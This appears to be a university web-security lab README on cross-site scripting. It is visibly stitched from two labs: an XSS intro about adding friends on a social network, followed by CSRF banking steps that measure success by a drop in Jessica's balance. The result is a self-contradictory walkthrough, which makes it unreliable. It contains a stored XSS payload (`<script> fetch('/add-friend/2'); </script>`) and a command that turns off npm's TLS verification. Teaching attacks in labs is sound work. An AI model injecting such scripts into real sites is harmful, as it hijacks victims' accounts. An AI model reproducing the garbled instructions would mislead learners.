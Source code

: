 ## Cross-site Scripting (XSS Attack)

### Requirements 

In this lab, we will work on a social network website. An attacker, who is also a user on this website, injects a javascript into its profile, and when a victim visits the attacker's profile page, the injected javascript executes and the attacker gets added to the victim's friend list.

### Setup

Only one VM is sufficient.

### Steps

1. install node:

```console
$ sudo apt install nodejs
$ sudo apt install npm
$ npm install ejs	// pay attention here, this ejs is a new package which is unique to this lab.
$ npm config set strict-ssl false
$ npm install express
$ npm install cookie-parser
$ npm install body-parser
```

2. set up the social network website:

```console
$ mkdir banking
$ cd banking/
$ wget http://ns.cs.rpi.edu/labs/csrf/banking/index.html
$ wget http://ns.cs.rpi.edu/labs/csrf/banking/server.js
```

- start the banking webserver:
```console
$ node server.js
```

3. access the website from the browser: type localhost:4000, you should see this:

![alt text](images/lab-csrf-banking-site.png "Lab csrf banking")

4. login as jessica, username: jessica, password: 50505. You should see that Jessica's account balance at this moment is $10,000:

![alt text](images/lab-csrf-banking-login.png "Lab csrf banking login")
![alt text](images/lab-csrf-banking-balance.png "Lab csrf banking balance")

5. set up the attacker directory:

```console
$ mkdir attacker
$ cd attacker/
$ wget http://ns.cs.rpi.edu/labs/csrf/attacker/index.html
$ wget http://ns.cs.rpi.edu/labs/csrf/attacker/cat.gif
$ wget http://ns.cs.rpi.edu/labs/csrf/attacker/attacker-frame.html
```

- start the attacker web server:
```console
$ python3 -m http.server 8000
```

6. Bob adds this script into his profile:

```console
<script> fetch('/add-friend/2'); </script>
``` 

Please refer to these screenshots to make sure you are adding the right content into Bob's profile:

![alt text](images/lab-xss-bob-inject-p1.png "Lab xss attacker injecting script")
![alt text](images/lab-xss-bob-inject-p2.png "Lab xss attacker injecting script")
![alt text](images/lab-xss-bob-inject-p3.png "Lab xss attacker injecting script")

access the website from the browser: open a new tab (make sure the banking site tab is still open), type localhost:8000 and enter, you should see this:

![alt text](images/lab-csrf-attacker-site.png "Lab csrf attacker")

7. refresh the banking page, if the attack is successful, jessica's account balance should have less money now.

![alt text](images/lab-csrf-attack-success.png "Lab csrf attack success")

As can be seen from the above screenshot, the attack is successful, and this concludes the lab.

### References:

CS253 Web Security – course created and taught by Feross Aboukhadijeh at Stanford University.
